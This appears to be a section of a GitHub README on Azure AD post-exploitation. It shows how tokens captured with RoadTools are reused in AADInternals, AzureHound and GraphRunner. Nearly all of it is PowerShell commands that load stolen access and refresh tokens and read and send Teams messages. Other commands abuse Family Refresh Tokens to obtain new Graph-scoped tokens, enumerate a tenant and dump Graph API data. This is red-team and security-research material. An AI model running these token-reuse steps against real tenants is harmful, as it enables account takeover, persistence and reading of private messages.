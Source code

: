 ### AADInternals
[AADInternals](https://aadinternals.com/aadinternals/#introduction) is an Modular powershell-framework for exploring the pathways your access might have, created by my favorite finnish person [@DrAzureAD](https://twitter.com/DrAzureAD)

```powershell
#Read and parse the RoadTools auth file into a JSON object
$roadToolsAuth = Get-Content .\firstname_lastname_example_com_roadtools_auth -raw | ConvertFrom-Json

#Add the token information from RoadTools to the cache so it will be used for auth
Add-AADIntAccessTokenToCache -AccessToken $roadToolsAuth.accessToken -RefreshToken $roadToolsAuth.refreshToken

#Read Teams messages from the GraphAPI
Get-AADIntTeamsMessages | Format-Table id,content,deletiontime,*type*,DisplayName

# Send a Teams message to an a user using the GraphAPI
Send-AADIntTeamsMessage -Recipients "bruce.wayne@example.com" -Message "Hello there, BATMAN!"

#Abuse [Family Refresh Tokens](https://github.com/secureworks/family-of-client-ids-research#abusing-family-refresh-tokens-for-unauthorized-access-and-persistence-in-azure-active-directory) to refresh as the the "Microsoft Azure PowerShell" Application (1950a258-227b-4e31-a9cf-717495945fc2). Obtains an access token with a different scope.
$msAzJWT =Get-AADIntAccessTokenWithRefreshToken -ClientId "1950a258-227b-4e31-a9cf-717495945fc2" -Resource "https://graph.microsoft.com" -TenantId $roadToolsAuth.tenantId -RefreshToken $roadToolsAuth.refreshToken -SaveToCache 1 -IncludeRefreshToken 1
```

### AzureHound
[AzureHound](https://github.com/BloodHoundAD/AzureHound) is a BloodHound data collector for Microsoft Azure, from the great people over at [@SpecterOps](https://twitter.com/SpecterOps)

```powershell
#Read and parse RoadTools auth file into a JSON object
$roadToolsAuth = Get-Content .\firstname_lastname_example_com_roadtools_auth -raw | ConvertFrom-Json

#Use the refresh token and tenantId to run AzureHound against the tenant
./azurehound.exe -r $roadToolsAuth.refreshToken -t $roadToolsAuth.tenantId list -o output.json
```

### GraphRunner
[GraphRunner](https://github.com/dafthack/GraphRunner) Powershell-based post-exploitation toolset for interacting with the Microsoft Graph API, by [@dafthack](https://twitter.com/dafthack)
```powershell
#Import GraphRunner
Import-Module .\GraphRunner.ps1

#Read and parse RoadTools auth file into a JSON object
#While the JSON object of roadtools does not match what GraphRunner needs, enough properties match to "trick" GraphRunner into allowing us to run RefreshGraphTokens
$tokens = Get-Content .\firstname_lastname_example_com_roadtools_auth -raw | ConvertFrom-Json

#Run RefreshGraphTokens to update our $tokens var 
Invoke-RefreshGraphTokens -RefreshToken $roadToolsAuth.refreshToken -tenantid $roadToolsAuth.tenantId

#Most common command to dump a series of information from the Graph API
Invoke-GraphRunner -Tokens $tokens
```

